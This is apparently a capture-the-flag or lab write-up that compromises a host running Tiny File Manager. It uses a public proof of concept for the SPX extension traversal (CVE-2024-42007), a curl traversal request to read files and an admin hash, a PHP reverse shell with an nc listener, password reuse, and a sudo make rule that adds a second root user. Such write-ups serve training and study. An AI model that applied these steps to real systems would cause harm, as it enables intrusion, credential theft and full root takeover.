








We start by enumerating the directories of the website on port 80. The base directory seems to be hosting an instance of H3K Tiny File Manager. We find the phpinfo.php file exposed, located in the webroot. We gain some more info on the system using the exposed file and find that the SPX php extension version is vulnerable to directory traversal.
feroxbuster --url http://192.168.229.108/ --wordlist /usr/share/wordlists/dirb/common.txt  We use this POC: https://github.com/BubblyCola/CVE_2024_42007 and obtain file read on the system. git clone https://github.com/BubblyCola/CVE_2024_42007 python3 CVE_2024_42007.py -t http://192.168.229.108/ -f /etc/passwd
Due to having already worked with H3K TinyFileManager in a previous lab, I know that all the code is contained on one large PHP file. We read it with curl to obtain the admin hash (I could not read it with the POC script). To read files on the website with curl, we use the SPX key value from the phpinfo.php file and use the same payload as in the POC. We need to add 18 URL-encoded "../" characters before adding the path of the file we want to read.
curl 'http://192.168.229.108/?SPX_KEY=a2a90ca2f9f0ea04d267b16fb8e63800&SPX_UI_URI=%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar%2fwww%2fhtml%2findex.php' > tinyfilemanager.php cat tinyfilemanager.php | grep admin  We crack the hash, login to Tiny File Manager as admin, upload a php reverse shell and visit the file URL with our browser to obtain a reverse shell. rlwrap nc -lvnp 80  We then switch to user "profiler" with the same password we cracked from the Tiny File Manager admin account. su profiler  We then verify what commands we are allowed to run as root with the user. We find the following entry: (ALL) /usr/bin/make install -C /home/profiler/php-spx We have full control over the makefile in the php-spx directory, meaning we can replace it with our own. We create a makefile with an "install" function that adds a second root user. sudo -l  cat MakeFile  cp /var/www/html/Makefile .  We then run the command and switch to the user with su to obtain a root shell. sudo /usr/bin/make install -C /home/profiler/php-spx su root2 